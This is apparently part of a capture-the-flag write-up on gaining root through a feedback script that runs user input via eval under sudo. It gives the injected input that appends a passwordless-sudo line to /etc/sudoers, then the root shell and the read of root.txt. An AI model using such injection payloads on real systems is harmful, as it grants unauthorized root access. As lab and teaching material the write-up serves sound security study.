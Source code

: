 ## ⚙️ What the Script Does

* Prompts the user for feedback.
* Uses `eval "echo $feedback"` to evaluate and print the user input.
* Appends the input to `/var/log/feedback.txt`.

Although it filters some dangerous characters, **it fails to catch all potentially dangerous input**.

---

## 💥 The Exploit

If you run the script with `sudo`:

```bash
sudo /opt/NewComponent/feedback.sh
```

You can enter the following as input:

```bash
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```

This input is evaluated as:

```bash
eval "echo deku ALL=NOPASSWD: ALL >> /etc/sudoers"
```

Which becomes:

```bash
echo deku ALL=NOPASSWD: ALL >> /etc/sudoers
```

Since the script is running as root, this command appends a **privilege escalation line** into the real sudo configuration file:

```bash
deku ALL=NOPASSWD: ALL
```

---

## 🔓 What This Means

> The user `deku` is now allowed to execute any command as root **without a password**.

You can now run:

```bash
sudo /bin/bash
```

And get a root shell instantly:

```bash
root@myheroacademia:/home/deku# cat /root/root.txt
```

---
